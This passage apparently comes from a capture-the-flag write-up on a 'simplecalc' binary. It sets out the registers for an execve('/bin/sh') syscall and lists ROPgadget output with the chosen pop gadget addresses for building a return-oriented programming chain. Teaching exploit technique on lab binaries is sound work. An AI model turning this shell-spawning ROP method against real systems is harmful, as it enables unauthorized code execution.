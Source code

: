 ```
rax:  0x3b              Specify execve syscall
rdi:  ptr to "/bin/sh"  Specify file to run
rsi:  0x0               Specify no arguments
rdx:  0x0               Specify no environment variables
```

To do this, we will need gadgets to control those four register. I typically like to go with gadgets like `pop rax; ret`, since it makes it simple. We will also need a gadget to write the string `/bin/sh` somewhere in memory that we know. Let's find our gadgets using ROPGadget (checkout https://github.com/JonathanSalwan/ROPgadget ):

```
$ python ROPgadget.py --binary simplecalc | grep "pop rax ; ret"
0x000000000044db32 : add al, ch ; pop rax ; ret
0x000000000040b032 : add al, ch ; pop rax ; retf 2
0x000000000040b02f : add byte ptr [rax], 0 ; add al, ch ; pop rax ; retf 2
0x000000000040b030 : add byte ptr [rax], al ; add al, ch ; pop rax ; retf 2
0x00000000004b0801 : in al, 0x4c ; pop rax ; retf
0x000000000040b02e : in al, dx ; add byte ptr [rax], 0 ; add al, ch ; pop rax ; retf 2
0x0000000000474855 : or dh, byte ptr [rcx] ; ror byte ptr [rax - 0x7d], 0xc4 ; pop rax ; ret
0x000000000044db34 : pop rax ; ret
0x000000000045d707 : pop rax ; retf
0x000000000040b034 : pop rax ; retf 2
0x0000000000474857 : ror byte ptr [rax - 0x7d], 0xc4 ; pop rax ; ret
$ python ROPgadget.py --binary simplecalc | grep "pop rdi ; ret"
0x000000000044bbbc : inc dword ptr [rbx - 0x7bf0fe40] ; pop rdi ; ret
0x0000000000401b73 : pop rdi ; ret
$ python ROPgadget.py --binary simplecalc | grep "pop rsi ; ret"
0x00000000004ac9b4 : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rsi ; ret
0x00000000004ac9b6 : add byte ptr [rax], al ; pop rsi ; ret
0x0000000000437aa9 : pop rdx ; pop rsi ; ret
0x0000000000401c87 : pop rsi ; ret
$ python ROPgadget.py --binary simplecalc | grep "pop rdx ; ret"
0x00000000004a868c : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rdx ; ret 0x45
0x00000000004a868e : add byte ptr [rax], al ; pop rdx ; ret 0x45
0x00000000004afd61 : js 0x4afde1 ; pop rdx ; retf
0x0000000000414ed0 : or al, ch ; pop rdx ; ret 0xffff
0x0000000000437a85 : pop rdx ; ret
0x00000000004a8690 : pop rdx ; ret 0x45
0x00000000004b2dd8 : pop rdx ; ret 0xfffd
0x0000000000414ed2 : pop rdx ; ret 0xffff
0x00000000004afd63 : pop rdx ; retf
0x000000000044af60 : pop rdx ; retf 0xffff
0x00000000004560ae : test byte ptr [rdi - 0x1600002f], al ; pop rdx ; ret
```

So we can see the gadgets for controlling the four registers are at `0x44db34`, `0x401b73`, `0x401c87`, and `0x437a85`. Now we need a gadget that will write an eight byte value to a memory region. For this I would like to start my search by searching through the gadgets with `mov` in them:

```
$   python3 ROPgadget.py --binary simplecalc | grep "mov" | less
```
